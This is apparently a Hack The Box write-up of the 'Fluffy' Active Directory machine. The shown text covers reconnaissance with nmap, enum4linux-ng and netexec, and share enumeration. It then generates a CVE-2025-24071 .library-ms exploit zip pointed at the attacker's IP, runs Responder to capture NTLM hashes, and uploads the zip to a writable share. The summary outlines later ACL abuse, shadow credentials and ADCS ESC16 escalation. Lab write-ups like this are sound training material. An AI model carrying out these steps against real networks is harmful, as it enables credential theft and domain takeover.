







## Table of Contents

- [Summary](#Summary)
- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Privilege Escalation to p.agila](#Privilege-Escalation-to-pagila)
    - [CVE-2025-24071: Windows File Explorer Spoofing Vulnerability](#CVE-2025-24071-Windows-File-Explorer-Spoofing-Vulnerability)
- [Cracking the Hash](#Cracking-the-Hash)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Enumeration of p.agila](#Enumeration-of-pagila)
- [Foothold](#Foothold)
- [Privilege Escalation to winrm_svc](#Privilege-Escalation-to-winrm_svc)
    - [Access Control List (ACL) GenericWrite Abuse Part 1](#Access-Control-List-ACL-GenericWrite-Abuse-Part-1)
    - [Shadow Credentials Attack Part 1](#Shadow-Credentials-Attack-Part-1)
    - [Pass-the-Hash (PtH)](#Pass-the-Hash-PtH)
- [user.txt](#usertxt)
- [Enumeration of winrm_svc](#Enumeration-of-winrm_svc)
- [Privilege Escalation to ca_svc](#Privilege-Escalation-to-ca_svc)
    - [Access Control List (ACL) GenericWrite Abuse Part 2](#Access-Control-List-ACL-GenericWrite-Abuse-Part-2)
    - [Shadow Credentials Attack Part 2](#Shadow-Credentials-Attack-Part-2)
- [Active Directory Certificate Services (AD CS)](#Active-Directory-Certificate-Services-AD-CS)
    - [Searching for vulnerable Templates](#Searching-for-vulnerable-Templates)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
    - [ESC16: Scenario B: ESC16 Combined with ESC6 (CA allows SAN specification via request attributes)](#ESC16-Scenario-B-ESC16-Combined-with-ESC6-CA-allows-SAN-specification-via-request-attributes)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts with a `read- and writeable` share called `IT` on port `445/TCP`. The share contains a `vulnerability report` which describes several vulnerabilities of the system. One of them, `CVE-2025-24071` which is a `Windows File Explorer Spoofing Vulnerability` has the ability to `leak` sensitive information like the `NTLM Hash` to an `attacker`. On `GitHub` a `Proof of Concept (PoC)` exploit can be found. After uploading the generated `.zip-file` to the `share` it leaks the `NTLM Hash` of the user `p.agila` which can be catched using `Responder`. The `hash` is easy to `crack` using for example `John the Ripper`. A `dump` of the `Active Directory` using `NetExec` shows that `p.agila` is member of the group `SERVICE ACCOUNT MANAGERS` which has `GenericAll` permissions on the group `SERVICE ACCOUNTS`. This group contains user like `ldap_svc`, `ca_svc`, `winrm_svc` and therefore has `GenericWrite` permissions on them. By abusing those `Access Control Lists (ACL)` it is possible to pull off a `Shadow Credentials Attack` to impersonate `winrm_svc` and gain `foothold` on the box. This user also leads to the `user.txt`. From here on the way to `Administrator` on the box requires the `privilege escalation` to `ca_svc` by performing the `Shadow Credentials Attack` on this user too. The user `ca_svc` is allowed to `request` and `enroll` various `certificates` within the `Domain`. The use of `Certipy` reveals that the `Certificate Authority (CA)` is vulnerable to `ESC16` which describes a vulnerability called `Security Extension Disabled on CA (Globally)`. The `Scenario B` combines `ESC16` with `ESC6 (CA allows SAN specification via request attributes)` and lead to `Domain Dominance` and to the `NTLM Hash` of `Administrator.`

## Introduction

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: `j.fleischman / J0elTHEM4n1990!`

## Reconnaissance

### Port Scanning

We started with an initial `port scan` as always using `Nmap`. However we didn't found anything out of the ordinary.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.61.173
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-24 21:02 CEST
Nmap scan report for 10.129.61.173
Host is up (0.67s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-25 02:04:19Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T02:05:46+00:00; +7h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T02:05:49+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T02:05:46+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T02:05:49+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2025-05-25T02:05:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.09 seconds
```

### Domain Enumeration

While the `port scan` was running, we fired up a quick scan using `enum4linux-ng` to grab details about the `Domain` and the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.61.173
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.61.173
[*] Username ......... ''
[*] Random Username .. 'xdtbamio'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.61.173    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.61.173    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: fluffy.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.61.173    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.61.173    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.129.61.173    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: FLUFFY                                                                                                                                                                                                                 
DNS domain: fluffy.htb                                                                                                                                                                                                                      
FQDN: DC01.fluffy.htb                                                                                                                                                                                                                       
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: FLUFFY                                                                                                                                                                                                                      

 ==========================================
|    RPC Session Check on 10.129.61.173    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'xdtbamio', password ''
[H] Rerunning enumeration with user 'xdtbamio' might give more results

 ====================================================
|    Domain Information via RPC for 10.129.61.173    |
 ====================================================
[+] Domain: FLUFFY
[+] Domain SID: S-1-5-21-497550768-2797716248-2627064577
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.61.173    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.129.61.173    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': timed out

 =======================================
|    Groups via RPC on 10.129.61.173    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': timed out

 =======================================
|    Shares via RPC on 10.129.61.173    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.61.173    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.61.173    |
 ==========================================
[-] Could not get printer info via 'enumprinters': timed out

Completed after 62.49 seconds
```

Right after the scan finished we added `fluffy.htb` and `dc01.fluffy.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.61.173   fluffy.htb
10.129.61.173   dc01.fluffy.htb
```

As to complete the `enumeration` of the `Domain` we used `NetExec` to scan for the presence of a `Certificate Authority (CA)` and indeed found one. We saved this information for later.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ netexec ldap 10.129.61.173 -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M adcs
LDAP        10.129.61.173   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.129.61.173   389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
ADCS        10.129.61.173   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.61.173   389    DC01             Found PKI Enrollment Server: DC01.fluffy.htb
ADCS        10.129.61.173   389    DC01             Found CN: fluffy-DC01-CA
```

### Enumeration of Port 445/TCP

Our next logical step was to use the given `credentials` to check port `445/TCP`. We found a share called `IT` on which we had `READ` and `WRITE` permissions. Which was kinda odd.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ netexec smb 10.129.61.173 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
[*] Initializing LDAP protocol database
SMB         10.129.61.173   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.61.173   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.129.61.173   445    DC01             [*] Enumerated shares
SMB         10.129.61.173   445    DC01             Share           Permissions     Remark
SMB         10.129.61.173   445    DC01             -----           -----------     ------
SMB         10.129.61.173   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.61.173   445    DC01             C$                              Default share
SMB         10.129.61.173   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.61.173   445    DC01             IT              READ,WRITE      
SMB         10.129.61.173   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.61.173   445    DC01             SYSVOL          READ            Logon server share
```

We could have used `NetExec` in order to download everything that would be on the share but we decided to switch tooling a bit and therefore used `smbclient` to check what the share had to offer.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ smbclient //10.129.61.173/IT -U j.fleischman
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \>
```

It stored a lot of files and one of them got our attention right away. It was the `Upgrade_Notice.pdf`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ smbclient //10.129.61.173/IT -U j.fleischman
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun May 25 04:07:55 2025
  ..                                  D        0  Sun May 25 04:07:55 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 17:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 17:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 17:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 17:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 16:31:07 2025

                5842943 blocks of size 4096. 1387094 blocks available
```

We downloaded the file and started a quick investigation using `exiftool`.

```shell
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (23.9 KiloBytes/sec) (average 23.9 KiloBytes/sec)
```

In the `Author` section we found another `username` called `p.agila`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ exiftool Upgrade_Notice.pdf 
ExifTool Version Number         : 13.25
File Name                       : Upgrade_Notice.pdf
Directory                       : .
File Size                       : 170 kB
File Modification Date/Time     : 2025:05:24 21:12:18+02:00
File Access Date/Time           : 2025:05:24 21:12:18+02:00
File Inode Change Date/Time     : 2025:05:24 21:12:18+02:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Tagged PDF                      : Yes
Language                        : en
Title                           : Upgrade Notice For IT Department
Create Date                     : 2025:05:17 07:22:32+00:00
Modify Date                     : 2025:05:17 07:22:32+00:00
Keywords                        : DAGnmrYlJoI, BAF-XVRpOno, 0
Author                          : p.agila
```

| Username |
| -------- |
| p.agila  |

Furthermore the `PDF` contained information about several `vulnerabilities` which we started researching on.



## Privilege Escalation to p.agila

### CVE-2025-24071: Windows File Explorer Spoofing Vulnerability

We found a `Proof of Concept (PoC)` exploit for `CVE-2025-24071` which described a `Windows File Explorer Spoofing Vulnerability`. The abuse of this vulnerability could lead to the `leak` of `NTLM Hashes`.

- [https://github.com/ThemeHackers/CVE-2025-24071](https://github.com/ThemeHackers/CVE-2025-24071)
- [https://cti.monster/blog/2025/03/18/CVE-2025-24071.html](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html)

After downloading the `PoC` we pointed it to our `local machine` and named it `.library-ms`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fluffy/files]
└─$ git clone https://github.com/ThemeHackers/CVE-2025-24071
Cloning into 'CVE-2025-24071'...
remote: Enumerating objects: 14, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 14 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (14/14), 8.81 KiB | 563.00 KiB/s, done.
Resolving deltas: 100% (1/1), done.
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fluffy/files/CVE-2025-24071]
└─$ python3 exploit.py -i 10.10.16.27 -f .library-ms

          ______ ____    ____  _______       ___     ___    ___    _____        ___    _  _      ___    ______   __                                                                                                                         
         /      |\   \  /   / |   ____|     |__ \   / _ \  |__ \  | ____|      |__ \  | || |    / _ \  |____  | /_ |                                                                                                                        
        |  ,----' \   \/   /  |  |__    ______ ) | | | | |    ) | | |__    ______ ) | | || |_  | | | |     / /   | |                                                                                                                        
        |  |       \      /   |   __|  |______/ /  | | | |   / /  |___ \  |______/ /  |__   _| | | | |    / /    | |                                                                                                                        
        |  `----.   \    /    |  |____       / /_  | |_| |  / /_   ___) |       / /_     | |   | |_| |   / /     | |                                                                                                                        
         \______|    \__/     |_______|     |____|  \___/  |____| |____/       |____|    |_|    \___/   /_/      |_|                                                                                                                        
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
                                                Windows File Explorer Spoofing Vulnerability (CVE-2025-24071)                                                                                                                               
                    by ThemeHackers                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
Creating exploit with filename: .library-ms.library-ms
Target IP: 10.10.16.27

Generating library file...
✓ Library file created successfully

Creating ZIP archive...
✓ ZIP file created successfully

Cleaning up temporary files...
✓ Cleanup completed

Process completed successfully!
Output file: exploit.zip
Run this file on the victim machine and you will see the effects of the vulnerability such as using ftp smb to send files etc.
```

To catch eventually leaked `hashes` we fired up `Responder` listening on interface `tun0`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.27]
    Responder IPv6             [dead:beef:4::1019]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-AHE3DOAKWIM]
    Responder Domain Name      [4W27.LOCAL]
    Responder DCE-RPC Port     [45114]

[+] Listening for events...
                                                                                                                                                           

```

Then we uploaded the `exploit.zip` to the `IT` share.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Fluffy/files/CVE-2025-24071]
└─$ smbclient //10.129.61.173/IT -U j.fleischman                                      
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (0.9 kb/s) (average 0.9 kb/s)
```

